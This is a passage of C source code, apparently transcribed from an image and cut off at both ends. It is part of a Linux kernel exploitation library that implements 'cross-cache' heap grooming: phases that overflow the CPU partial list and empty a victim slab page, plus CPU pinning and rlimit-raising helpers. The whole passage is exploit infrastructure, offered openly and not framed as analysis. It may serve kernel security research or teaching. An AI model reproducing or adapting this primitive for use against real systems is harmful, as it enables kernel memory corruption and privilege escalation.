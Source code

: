 ```c 
    case CC_EMPTY_VICTIM_PAGE:
        return empty_victim_page(cc);
    case CC_OVERFLOW_PARTIAL_LIST:
        return overflow_partial_list(cc);
    default:
        return 0;
    }
}

void cc_deinit(struct cross_cache *cc)
{
    free_all(cc);
    free(cc->overflow_objs);
    free(cc->pre_victim_objs);
    free(cc->post_victim_objs);
    free(cc);
}

struct cross_cache *cc_init(uint32_t objs_per_slab,
                            uint32_t cpu_partial,
                            void *allocate_fptr,
                            void *free_fptr)
{
    struct cross_cache *cc = malloc(sizeof(struct cross_cache));
    if (!cc)
    {
        perror("init_cross_cache:malloc\n");
        return NULL;
    }
    cc->objs_per_slab = objs_per_slab;
    cc->cpu_partial = cpu_partial;
    cc->free = free_fptr;
    cc->allocate = allocate_fptr;
    cc->phase = CC_RESERVE_PARTIAL_LIST;

    uint32_t n_overflow = objs_per_slab * (cpu_partial + 1) * CC_OVERFLOW_FACTOR;
    uint32_t n_previctim = objs_per_slab - 1;
    uint32_t n_postvictim = objs_per_slab + 1;

    cc->overflow_objs = malloc(sizeof(int64_t) * n_overflow);
    cc->pre_victim_objs = malloc(sizeof(int64_t) * n_previctim);
    cc->post_victim_objs = malloc(sizeof(int64_t) * n_postvictim);

    return cc;
}

static inline int pin_cpu(int cpu)
{
    cpu_set_t cpuset;
    CPU_ZERO(&cpuset);
    CPU_SET(cpu, &cpuset);
    return sched_setaffinity(0, sizeof cpuset, &cpuset);
}

static int rlimit_increase(int rlimit)
{
    struct rlimit r;
    if (getrlimit(rlimit, &r))
        fatal("rlimit_increase:getrlimit");

    if (r.rlim_max <= r.rlim_cur)
    {
        printf("[+] rlimit %d remains at %.lld", rlimit, r.rlim_cur);
```